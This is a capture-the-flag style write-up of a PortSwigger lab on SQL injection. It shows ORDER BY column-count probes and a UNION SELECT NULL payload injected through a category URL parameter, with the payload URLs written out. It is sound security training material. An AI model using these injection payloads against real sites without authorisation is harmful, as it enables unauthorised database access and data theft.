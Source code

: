```yaml
---
title: Lab 1 SQL Injection - Port Swigger

---
```


# Lab 3 SQL Injection - Port Swigger

## Statement
  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.


## Solution

Home page is 
![image](https://hackmd.io/_uploads/HkVaryb9R.png)

In order to obtain the number of columns in the query we have to perform a query, for example searching by the gift category. The link is 

[https://0aa9008104939cd882a2c9cc00f000b5.web-security-academy.net/filter?category=Gifts]()

The SQL query may be something like

`SELECT * FROM products WHERE category = 'Gifts'`

We want to know the number of columns, so we can try to order the columns by its index. If we get an error is because the column with that index doesn't exist. 

`SELECT * FROM products WHERE category = 'Gifts' order by 2`

We can try the query above by adding a payload in the link:

[https://0a5d007004f6ccc385cb9171007b00f6.web-security-academy.net/filter?category=Gifts%27+order+by+2--]()

And we see that the products are ordered by its name, so the name is the column with index 2.

![image](https://hackmd.io/_uploads/rkLjKJWqR.png)

Let's try ordering the products by its price, probably column 3.

![image](https://hackmd.io/_uploads/B1rk9k-50.png)

We did it! Let's see if there exists a fourth column...

![image](https://hackmd.io/_uploads/B1gz5J-qC.png)

The fourth column doesn't exist. We know there are 3 columns, but we want a UNION attack that returns an additional row containing null values. This is obtained by the next query, taking into account that null type adjusts any other data type.

`SELECT * FROM products WHERE category = 'Gifts' union select null, null, null`

To obtain this query, we can use the link:

[https://0a5d007004f6ccc385cb9171007b00f6.web-security-academy.net/filter?category=Gifts%27+union+select+null+,+null+,+null--]()

![image](https://hackmd.io/_uploads/BJJ83ybcR.png)

This lab is finished!

